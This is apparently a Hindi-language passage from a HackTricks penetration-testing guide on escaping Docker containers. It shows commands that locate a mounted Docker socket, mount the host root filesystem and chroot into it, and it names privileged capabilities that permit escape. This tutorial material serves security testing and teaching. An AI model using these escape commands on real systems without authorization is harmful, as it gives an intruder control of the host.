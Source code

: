 <details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>


# एक कंटेनर क्या है

संक्षेप में, यह एक **अलग** **प्रक्रिया** है जिसके माध्यम से **cgroups** (प्रक्रिया द्वारा उपयोग किया जा सकने वाली चीजें, जैसे CPU और RAM) और **नेमस्पेस** (प्रक्रिया द्वारा देखा जा सकने वाली चीजें, जैसे निर्देशिकाएँ या अन्य प्रक्रियाएँ) के माध्यम से अलग होती है:
```bash
docker run -dt --rm denial sleep 1234 #Run a large sleep inside a Debian container
ps -ef | grep 1234 #Get info about the sleep process
ls -l /proc/<PID>/ns #Get the Group and the namespaces (some may be uniq to the hosts and some may be shred with it)
```
# माउंट किए गए डॉकर सॉकेट

यदि आप किसी तरह से पाएं कि **डॉकर सॉकेट माउंट किया गया है** डॉकर कंटेनर के अंदर, तो आप इससे बाहर निकल सकेंगे।\
यह आमतौर पर डॉकर कंटेनर में होता है जो किसी कारणवश डॉकर डेमन से कनेक्ट होने की आवश्यकता होती है ताकि कार्रवाई कर सकें।
```bash
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```
इस मामले में आप सामान्य डॉकर कमांड का उपयोग करके डॉकर डीमन के साथ संवाद कर सकते हैं:
```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```
{% hint style="info" %}
यदि **डॉकर सॉकेट अप्रत्याशित स्थान में है** तो आप इसके साथ अभी भी संवाद कर सकते हैं उपयोग करके **`docker`** कमांड का प्रयोग करके **`-H unix:///path/to/docker.sock`** पैरामीटर के साथ
{% endhint %}

# कंटेनर क्षमताएं

आपको कंटेनर की क्षमताओं की जांच करनी चाहिए, यदि इसमें निम्नलिखित में से कोई भी होती है, तो आप इससे बचने के लिए सक्षम हो सकते हैं: **`CAP_SYS_ADMIN`**_,_ **`CAP_SYS_PTRACE`**, **`CAP_SYS_MODULE`**, **`DAC_READ_SEARCH`**, **`DAC_OVERRIDE`**

आप वर्तमान में कंटेनर की क्षमताओं की जांच कर सकते हैं:
```bash
capsh --print
```
इस पृष्ठ पर आप **लिनक्स क्षमताओं के बारे में और उन्हें दुरुपयोग करने के बारे में और अधिक जान सकते हैं**:
